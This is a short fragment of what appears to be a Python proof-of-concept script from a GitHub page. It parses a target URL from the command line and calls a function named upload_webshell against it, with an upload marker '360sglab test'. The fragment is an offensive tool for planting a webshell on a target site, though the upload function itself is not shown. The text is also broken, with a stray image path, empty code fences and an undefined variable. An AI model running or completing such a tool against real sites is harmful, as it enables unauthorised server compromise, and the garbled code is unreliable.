 ```
```
upload_content = "360sglab test"
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'X-Requested-With': 'XMLHttpRequest', }

if len(sys.argv) == 1:
    sys.argv.append('-h')
args = parser.parse_args()
target = args.target

target = target.rstrip('/')
if "://" not in target:
    target = "http://" + target
try:
    upload_webshell(target, url)
except Exception as e:
    print("[-] Error: \n")
    traceback.print_exc() 
``` 
```